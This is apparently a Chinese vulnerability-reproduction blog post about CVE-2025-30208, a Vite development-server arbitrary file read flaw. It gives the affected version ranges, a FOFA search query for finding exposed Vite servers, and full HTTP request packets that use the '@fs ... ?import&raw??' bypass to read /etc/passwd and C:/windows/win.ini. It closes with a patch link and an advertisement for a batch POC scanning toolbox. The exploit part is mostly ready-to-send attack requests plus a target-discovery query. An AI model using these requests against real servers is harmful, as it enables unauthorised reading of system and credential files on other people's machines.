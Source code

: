 #  Vite存在任意文件读取漏洞CVE-2025-30208 附POC   
2025-3-27更新  南风漏洞复现文库   2025-03-27 20:43  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Vite简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Vite框架  
## 2.漏洞描述  
  
Vite是Vite开源的一种新型的前端构建工具。Vite存在访问控制错误漏洞，该漏洞源于URL中的?raw??  
或?import&raw??  
可以绕过文件访问限制，返回任意文件内容。  
  
CVE编号:CVE-2025-30208  
  
CNNVD编号:CNNVD-202503-2801  
  
CNVD编号:  
## 3.影响版本  
  
6.2.0 >= Vite <=6.2.2  
6.1.0 >= Vite <=6.1.1 6.0.0 >= Vite <=6.0.11  
5.0.0 >= Vite <=5.4.14  
Vite <=4.5.9  
  
![Vite存在任意文件读取漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG10rrxo38VibicdsiaEKlqZ8bGc4EdzLRRicFWGycvl1vXBI15m5UicSWjibvVw/640?wx_fmt=png&from=appmsg "null")  
  
Vite存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="/@vite/client"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/@fs/etc/passwd?import&raw??  
  
漏洞数据包：  
  
Linux下  
```
GET /@fs/etc/passwd?import&raw?? HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG106hO3cYvrFVuOAXicttNPUSnuZ707NjF1QIsHjYA5peEhtjFHc7tkKtQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
window下  
```
GET /@fs/C://windows/win.ini?import&raw?? HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG10M7DQuIeeWfgibs8vpHfnpxzgWcEzwRwiaRWA5XGUDo8icSOt5TOjQUmuQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG10CbuSvaRrvt1ol8IM2GV6112rgoFVsz1ta1pduiaK5IK3tC2ZQ0o6ECg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG10HLbQNceyNlmorfvLN3ibp0lAbqza0icb7o8bdqR1Tnh8bHP2d0GNDQHg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG10icKPkdnV6vW6nTUSfoestKE6sx1f4FcrcNHLSZ33gRlibbzGXH3I0TibA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bJeluMK2OeZ2TDVtj7lG10NAGSzv9ktuicocAzV9gJ6WKufC0kS9jGAib8pccUODdHAgMFFj5pN7XA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
官方补丁：https://github.com/vitejs/vite/releases/tag/v6.2.3  
## 8.往期回顾  
  
  
